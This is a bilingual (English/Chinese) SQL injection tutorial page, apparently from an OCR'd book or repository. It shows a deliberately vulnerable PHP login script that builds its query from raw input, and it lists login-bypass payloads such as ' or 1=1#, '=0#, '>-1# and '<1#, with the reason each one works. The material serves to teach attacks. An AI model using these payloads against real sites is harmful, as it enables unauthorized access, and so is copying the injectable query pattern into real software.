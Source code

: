 ```
  $dbpass = 'pass';
  $database = 'injection_db';

  $db = mySQL_connect($dbhost, $dbuser, $dbpass);
  mySQL_select_db($database,$db);
  $SQL = mySQL_query("select * from users where id='$id' and password='$password'") or die (mySQL_error());

  $row = mySQL_fetch_array($SQL);

  if($row[id] && $row[password]){
    echo "<font color=#FF0000><h1>"."Login sucess"."</h1></u><br>";
    echo "<h3><font color=#000000>"."Hello, "."</u>";
    echo "<font color=#D2691E>".$row[id]."</u></h3><br>";
  }
  else{
    echo "<script>alert('Login failed');</script>";
  }
  mySQL_close($db);
}

?>

```

首先，基本的 SQL 注入如下

```
' or 1=1#

The code above is general SQL Injection Code, and this writer classified the code as "True SQL Injection". When you log on to some site, in internal of web program, your id and password are identified by some statement used "select id, password from table where id='' and password='', you can easily understand when you think 0 about character single quotation mark. Empty space is same as 0, the attack is possible using = and 0\. As a result, following statement enables log on process. 
```

上面的代码是一般的 SQL 注入代码，我将这类代码归为“真 SQL 注入”。当你登录网站的时候，在网站的内部程序中，你的 ID 和密码会被一些语句用"select id, password from table where id='' and password=''"识别，如果你把单引号当做 0 你可以很容易地理解。空的空间与 0 是相等的，攻击可以使用‘=’和‘0’。这样一来，下面的语句就能完成登录过程。

```
'=0# 
```

我们可以以不同的方式运用它。

因为 0>-1，这一句也能成功。

```
'>-1# 
```

同样的，因为 0<1，所以这一句也能成功。

```
'<1# 
```
